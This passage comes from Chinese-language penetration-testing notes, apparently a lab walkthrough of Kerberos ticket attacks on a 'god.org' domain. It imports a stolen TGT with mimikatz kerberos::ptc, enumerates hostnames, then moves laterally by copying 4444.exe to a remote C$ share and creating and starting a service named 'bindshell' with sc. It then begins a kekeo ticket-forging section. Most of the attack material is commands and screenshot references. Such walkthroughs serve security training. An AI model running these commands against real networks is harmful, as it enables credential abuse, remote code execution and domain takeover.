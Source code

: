 ```shell
mimikatz kerberos::ptc C:\Users\webadmin\Desktop\TGT_webadmin@god.org.ccache
```

然后查看是否导入了票据：

![截图](b0a9aa8df51173a67768bf930bd30801.png)

- 连接目标上线

==这里注意，我们连接的机子需要使用计算机名而不是ip地址！！！==

我们可以使用以下命令查看计算机用户名：

```shell
shell nbtstat -a 192.168.3.21
```

![截图](f53415683a10d9acea4c042f3c20a2ed.png)

直接使用以下命令也可以查看：

```shell
shell net user 
```

![截图](76099c047db87a8ed0d83f8fc3fd4ed1.png)

连接上线：

```shell
shell dir \\OWA2010CN-GOD\c$
```

![截图](0c6d34707ec792eccdebab8df37bcbbc.png)

上线的命令！！

```shell
shell net use \\OWA2010CN-GOD\C$
shell copy 4444.exe \\OWA2010CN-GOD\C$
shell sc \\OWA2010CN-GOD create bindshell binpath= "c:\4444.exe"
shell sc \\OWA2010CN-GOD start bindshell
```

![截图](40d6d9953a8817a2191b409b70f5776a.png)

### 票据劫持——kekeo

利用获取的NTLM生成新的票据尝试认证。

因为当前主机肯定之前与其他主机连接过，所以本地应该生成了一些票据， 我们可以导出这些票据，然后再导入票据，利用。该方法类似于cookie欺骗。
缺点：票据是有有效期的，所以如果当前主机在连接过域控的话，有效期内可利用。

- 生成票据

如果，我们直接使用webadmin这个密码凭据的话是无法连上的！！！ 因为hash值不匹配。（为了加强对这个的理解，如下展示一次失败的案例)

![截图](83b527fa305cb23bde58866f7f4af37a.png)
